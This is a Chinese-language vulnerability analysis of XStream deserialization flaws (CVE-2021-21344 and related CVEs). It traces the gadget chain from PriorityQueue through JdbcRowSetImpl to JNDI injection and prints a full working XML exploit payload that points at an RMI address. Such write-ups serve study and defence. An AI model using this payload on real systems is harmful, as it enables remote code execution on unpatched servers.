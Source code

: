 # CVE-2021-21344(45 47 50 51)-远程代码执行
## 影响范围
Xstream <= 1.4.15
## 漏洞分析
主要原因在于Xstream在将XML转换为JAVA对象时,对于实现了`Serializable`和没有实现该接口的对象类处理方式不同,从而调用的Converter不同,对于实现了`Serializable`接口的对象使用的是`SerializableConverter`,对于未实现该接口调用的是`ReflectionConverter`,而在`SerializableConverter`中会调用对象类重写`readObject`方法,导致反序列化RCE.  
实例类代码如下:
```java
    public static class test implements Serializable{
        public int age;
        public String name;
        public void setAge(int age) {
            this.age = age;
        }
        public void setName(String name){
            this.name = name;
        }
        public int getAge(){
            return this.age;
        }
        public String getName(){
            return this.name;
        }
        private void readObject(ObjectInputStream ob) throws IOException,ClassNotFoundException {
            System.out.println("test");
            ob.defaultReadObject();
        }
    }
```
```java
        XStream stream = new XStream();
        test test = new test();
        String xml = stream.toXML(test);
        System.out.println(xml);
        stream.fromXML(xml);
```
结果如下:
![](2021-12-16-00-03-03.png)
可以看到多了一个`serialization="custom"`标识来表示该对象类实现了`Sserializable`接口,并且在XML转化为JAVA对象时调用了该对象类的`readObject`方法.
## 利用思路
利用思路则是寻找一条重写了`readObject`方法的利用链即可.
POC:
```xml
<java.util.PriorityQueue serialization='custom'>
  <unserializable-parents/>
  <java.util.PriorityQueue>
    <default>
      <size>2</size>
      <comparator class='sun.awt.datatransfer.DataTransferer$IndexOrderComparator'>
        <indexMap class='com.sun.xml.internal.ws.client.ResponseContext'>
          <packet>
            <message class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XMLMultiPart'>
              <dataSource class='com.sun.xml.internal.ws.message.JAXBAttachment'>
                <bridge class='com.sun.xml.internal.ws.db.glassfish.BridgeWrapper'>
                  <bridge class='com.sun.xml.internal.bind.v2.runtime.BridgeImpl'>
                    <bi class='com.sun.xml.internal.bind.v2.runtime.ClassBeanInfoImpl'>
                      <jaxbType>com.sun.rowset.JdbcRowSetImpl</jaxbType>
                      <uriProperties/>
                      <attributeProperties/>
                      <inheritedAttWildcard class='com.sun.xml.internal.bind.v2.runtime.reflect.Accessor$GetterSetterReflection'>
                        <getter>
                          <class>com.sun.rowset.JdbcRowSetImpl</class>
                          <name>getDatabaseMetaData</name>
                          <parameter-types/>
                        </getter>
                      </inheritedAttWildcard>
                    </bi>
                    <tagName/>
                    <context>
                      <marshallerPool class='com.sun.xml.internal.bind.v2.runtime.JAXBContextImpl$1'>
                        <outer-class reference='../..'/>
                      </marshallerPool>
                      <nameList>
                        <nsUriCannotBeDefaulted>
                          <boolean>true</boolean>
                        </nsUriCannotBeDefaulted>
                        <namespaceURIs>
                          <string>1</string>
                        </namespaceURIs>
                        <localNames>
                          <string>UTF-8</string>
                        </localNames>
                      </nameList>
                    </context>
                  </bridge>
                </bridge>
                <jaxbObject class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'>
                  <javax.sql.rowset.BaseRowSet>
                    <default>
                      <concurrency>1008</concurrency>
                      <escapeProcessing>true</escapeProcessing>
                      <fetchDir>1000</fetchDir>
                      <fetchSize>0</fetchSize>
                      <isolation>2</isolation>
                      <maxFieldSize>0</maxFieldSize>
                      <maxRows>0</maxRows>
                      <queryTimeout>0</queryTimeout>
                      <readOnly>true</readOnly>
                      <rowSetType>1004</rowSetType>
                      <showDeleted>false</showDeleted>
                      <dataSource>rmi://localhost:15000/CallRemoteMethod</dataSource>
                      <params/>
                    </default>
                  </javax.sql.rowset.BaseRowSet>
                  <com.sun.rowset.JdbcRowSetImpl>
                    <default>
                      <iMatchColumns>
                        <int>-1</int>
                        <int>-1</int>
                        <int>-1</int>
                        <int>-1</int>
                        <int>-1</int>
                        <int>-1</int>
                        <int>-1</int>
                        <int>-1</int>
                        <int>-1</int>
                        <int>-1</int>
                      </iMatchColumns>
                      <strMatchColumns>
                        <string>foo</string>
                        <null/>
                        <null/>
                        <null/>
                        <null/>
                        <null/>
                        <null/>
                        <null/>
                        <null/>
                        <null/>
                      </strMatchColumns>
                    </default>
                  </com.sun.rowset.JdbcRowSetImpl>
                </jaxbObject>
              </dataSource>
            </message>
            <satellites/>
            <invocationProperties/>
          </packet>
        </indexMap>
      </comparator>
    </default>
    <int>3</int>
    <string>javax.xml.ws.binding.attachments.inbound</string>
    <string>javax.xml.ws.binding.attachments.inbound</string>
  </java.util.PriorityQueue>
</java.util.PriorityQueue>
```
### PriorityQueue类
PriorityQueue类是实现了Serializable接口并重写了readObject方法的一个类,从POC可以看到带其`serialization=custom`属性,
在该类重写的`readObject`可以看到最后调用了`heapify()`方法.
![](2021-12-16-10-50-39.png)
#### $IndexOrderComparator
跟进`heapify()`方法中一路到`siftDown`方法中,其中根据属性`comparator`是否为空调用不同的方法,POC中设置了该属性为`datatransfer.DataTransferer$IndexOrderComparator`,也就是会调用`siftDownUsingComparator(k, x)`.
![](2021-12-16-10-53-50.png)
而在`siftDownUsingComparator`中会调用到`comparator.compare`,也就是`IndexOrderComparator`的`compare方法`.
![](2021-12-16-11-03-52.png)
#### JdbcRowSetImpl
在`IndexOrderComparator`的`compare方法`的一系列嵌套调用中最后会调用反射来到`JdbcRowSetImpl#getDatabaseMetaData`中通过获取`dataSource`属性值传入connect()中的lookup造成JDNI注入.  
调用栈如下:
![](2021-12-16-11-12-46.png)
## 总结
1. Xstream在将XML数据转化为JAVA对象类时,如果原来的JAVA对象类实现了序列化接口则会调用`SerializableConverter`转换器来进行转换,其中会调用其重写的readObject()方法.
2. 因为所有参数都是从XML数据中获取,全部可控,找一个重写了readObject能利用的链即可.
3. PriorityQueue类实现了序列化接口,并且重写了readObject,其中构造参数使用反射调用到`JdbcRowSetImpl`方法中造成JNDI注入.

## 其它利用链
后续几个CVE原理都一样,主要在于其利用的链不同.
### CVE-2021-21345
该CVE主要利用`com.sun.corba.se.impl.activation.ServerTableEntry类`直接在本地执行恶意代码而不再通过JDBC链去远程加载恶意类.
### CVE-2021-21347
该CVE主要利用`javafx.collections.ObservableList$1`的compare方法来使用URLClassLoader来加载远程恶意类.
### CVE-2021-21350
该CVE与CVE-2021-21347相似,只不过最后不是利用URLClassLoader来远程加载,而是使用BCEL的方式.
### CVE-2021-21351
## 参考
https://www.freebuf.com/articles/web/268553.html  
https://x-stream.github.io/security.html